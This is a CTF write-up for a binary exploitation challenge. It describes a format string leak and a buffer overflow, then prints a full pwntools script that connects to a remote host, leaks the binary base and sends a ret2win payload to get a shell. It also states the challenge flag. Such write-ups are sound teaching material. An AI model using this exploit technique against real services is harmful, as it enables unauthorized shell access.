


# pwn - Infinite Recursion - Writeup

---  

## FLAG：
`THJCC{E$C4Pe_FRoM_TH3_InF!NI7E_r3CURS!on}`

## Observation：
- `fsb()` has a **format string** vulnerability that can **leak binary base address**.
- `bof()` has a **buffer overflow** vulnerability that can trigger **arbitrary execution**.
- `main()` has a `system("/bin/sh")` can be execute to get shell.

## Step：
1. When `"fsb> "` is received, use a format string vulnerability to print the 9th argument to obtain an address located near the binary base, and calculate it.
2. When `"bof> "` is received, apply **ret2win** attack to get shell.

## Exploit：  

```python
from pwn import *
from Crypto.Util.number import *
p = remote('23.146.248.230', 12355)
#p = process('./infinite_recursion')
r = p.recvline()
print(r)
while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'fsb> '):
        p.sendline(b'%9$p_')
        addr = p.recvuntil(b'_',drop=True)
        exe_base = int(addr, 16) - 0x12d9
        print(f'{hex(exe_base) = }')
        break
    else:
        p.sendline(b'AAA')

while(True):
    mode = p.recvuntil(b'> ')
    if(mode == b'bof> '):
        p.sendline(b'A'*16 + b'B'*8 + p64(exe_base+0x1366))
        p.interactive()
        break
    else:
        p.sendline(b'AAA')
        p.recvuntil(b'AAA',drop=True)
```

